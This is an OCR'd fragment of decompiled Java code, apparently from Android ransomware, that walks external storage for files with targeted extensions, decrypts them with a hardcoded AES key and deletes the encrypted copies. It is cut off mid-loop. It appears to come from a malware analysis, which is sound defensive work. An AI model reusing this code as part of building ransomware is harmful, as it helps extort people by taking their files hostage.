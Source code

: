 ```java
    }

    private void getFileNames(File paramFile) {
        File[] arrayOfFile = paramFile.listFiles();
        for (int i = 0;; i++) {
            int k = arrayOfFile.length;
            if (i >= k)
                return;
            String absolutePath = paramFile.getAbsolutePath();
            String fileName = arrayOfFile[i].getName();
            File file = new File(absolutePath, fileName);
            boolean isDirectory = file.isDirectory();
            if (isDirectory) {
                File[] arrayOfFile1 = file.listFiles();
                if (arrayOfFile1 != null) {
                    // if a directory, get names of files inside it recursively
                    getFileNames(file);
                    continue;
                }
            }
            // if not a directory
            String str3 = file.getAbsolutePath();
            String subStr = str3.substring(str3.lastIndexOf(".") + 1);
            List<String> list = this.extensionsToDecrypt;
            // if pathname contains .enc
            boolean bool1 = list.contains(subStr);
            if (bool1) {
                list = this.filesToDecrypt;
                fileName = file.getAbsolutePath();
                list.add(fileName);
            }
            continue;
        }
    }

    private boolean isExternalStorageWritable() {
        String ext = Environment.getExternalStorageState();
        String mounted = "mounted";
        boolean isMounted = mounted.equals(ext);
        if (isMounted)
            return true;
        isMounted = false;
        mounted = null;
        return isMounted;
    }

    public void decrypt() throws NoSuchPaddingException, NoSuchAlgorithmException, IOException, InvalidAlgorithmParameterException, InvalidKeyException {
        boolean isWritable = isExternalStorageWritable();
        if (isWritable) {
            AesCrypt aesCrypt = new AesCrypt("jndlasf074hr");
            Iterator<String> iterator = this.filesToDecrypt.iterator();
            while (true) {
                boolean hasNext = iterator.hasNext();
                if (hasNext) {
                    String inputFileName = iterator.next();
                    hasNext = false;
                    int i = inputFileName.lastIndexOf(".");
                    String outputFileName = inputFileName.substring(0, i);
                    aesCrypt.decrypt(inputFileName, outputFileName);
                   File file = new File(inputFileName);
                    file.delete();
                    continue;
```